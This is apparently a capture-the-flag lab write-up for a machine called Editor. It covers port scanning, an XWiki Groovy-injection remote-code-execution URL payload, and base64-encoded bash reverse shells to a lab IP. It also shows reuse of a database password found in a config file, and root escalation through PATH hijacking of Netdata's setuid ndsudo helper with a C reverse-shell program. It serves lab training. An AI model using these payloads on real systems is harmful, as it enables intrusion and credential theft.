 Let's scan the car
```bash
sudo nmap -v -sC -sV 10.10.11.80 -oN nmap/initial
```
```http
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
8080/tcp open http Jetty 10.0.20
|_http-server-header: Jetty(10.0.20)
| http-webdav-scan:
| Server Type: Jetty(10.0.20)
| WebDAV type: Unknown
|_ Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_http-open-proxy: Proxy might be redirecting requests
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
| http-methods:
| Supported Methods: OPTIONS GET HEAD PROPFIND LOCK UNLOCK
|_ Potentially risky methods: PROPFIND LOCK UNLOCK
| http-cookie-flags:
| /:
| JSESSIONID:
|_ httponly flag not set
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/
|_/xwiki/bin/undelete/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<div style="page-break-after: always;"></div>

Let's go to the site

![image](images/20250804155001.png)

There is a `Docs` button. Let's click on it

![image](images/20250804155046.png)

`XWiki Debian 15.10.8` opens. Let's try to find vulnerabilities for it.
There is [XWiki Platform 10/15/10 - Remote Code Execution](https://www.exploit-db.com/exploits/52136).
This exploit has this code block:
```Python
# Exploit function
def exploit(target_url):
target_url = detect_protocol(target_url.replace("http://",
"").replace("https://", "").strip())
exploit_url =
f"{target_url}/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"
```
Here's what sent:
```bash
}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}
```
Let's try to follow the link
```http
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d% 7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
```

![image](images/20250804155439.png)

The `SolrSearch.rss` file is downloaded. If you open it, you will see the contents of `/etc/passwd`

![image](images/20250804155844.png)

We see that there is a user `oliver`. This information will be needed in the future.
Now you need to run the command
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'
```
to get a reverse shell. For this purpose in
```http
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d% 7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d
```
change `println(%22cat%20/etc/passwd%22.execute().text)` to `"bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'"`. To do this, you need to encode this command in `Base64`:
```bash
echo -n "bash -c 'sh -i >& /dev/tcp/10.10.14.177/4444 0>&1'" | base64 -w0
```

![image](images/20250804160930.png)

```
YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc3LzQ0NDQgMD4mMSc=%
```
The final command looks like this:
```bash
}}}{{async async=false}}{{groovy}}"bash -c {echo,YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc3LzQ0NDQgMD4mMSc=}|{base64,-d}|{bash,-i}".execute(){{/groovy}}{{/async}}'
```
[Let's encode](https://www.urlencoder.org/) it in URL:
```http
%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho%2CYmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTA uMTQuMTc3LzQ0NDQgMD4mMSc%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22.execute%28%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D%27
```
We paste the resulting string into **URL**
```bash
curl 'http://wiki.editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async=false%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-c%20%7Becho, YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTc3LzQ0NDQgMD4mMSc=%7D%7C%7Bb ase64,-d%7D%7C%7Bbash,-i%7D%22.execute()%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D'
```
At the same time we listen port
```bash
sudo ncat -lvnp 4444
```

![image](images/20250804153012.png)

We got a reverse shell.
Stabilize the shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
Enter twice, and
export TERM=xterm
```
There is a file `hibernate.cfg.xml` in `/usr/lib/xwiki/WEB-INF/`. It contained these lines:
```XML
<property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property> 
	<property name="hibernate.connection.username">xwiki</property> 
	<property name="hibernate.connection.password">theEd1t0rTeam99</property> 
	<property name="hibernate.connection.driver_class">com.mysql.cj.jdbc.Driver</property> 
	<property name="hibernate.dbcp.poolPreparedStatements">true</property> 
	<property name="hibernate.dbcp.maxOpenPreparedStatements">20</property>
```
There is a password
```Password
theEd1t0rTeam99
```
Let's try to connect via **SSH** to `oliver`:

![image](images/20250804164155.png)

Let's check what services are running locally
```bash
netstat -lntp
```

![image](images/20250804182142.png)

`Netdata` is running on port `19999`. It has plugins that it can call and execute. Let's see what plugins there are:
```bash
ls -la /opt/netdata/usr/libexec/netdata/plugins.d
```

![image](images/20250804182036.png)

The `ndsudo` plugin is interesting here. Let's see what it can do:
```bash
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo -h
```

![image](images/20250804182509.png)

**set-uid root** is launched, checks whether the user is in the **netdata** group, searches for an "executable file" with the name specified in the **Executables** section of the **regular `PATH`** rule, forms the final `<executable> <Parameters>` line and executes it from **root**.

That is, you need to create a reverse shell, make it **executable**, add it to **PATH** and at the same time call `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list`

To do this, we will make a reverse shell in `C`:
```C
#include <unistd.h>
int main() {
	setuid(0); setgid(0);
	execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.177/4444 0>&1", NULL);
	return 0;
}
```
Compile `nvme.c`:
```bash
gcc nvme.c -o nvme
```
Send this file to the machine in the directory `/tmp/nvme2`, which we created earlier:
```bash
sudo python3 -m http.server 80
```
Make it executable:
```bash
chmod +x nvme
```
Run the file and listen to the port at the same time:
```bash
PATH=/tmp/pwnbin:$PATH \
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
```bash
sudo ncat -lvnp 4444
```

![image](images/20250804181941.png)


![image](images/20250804181951.png)

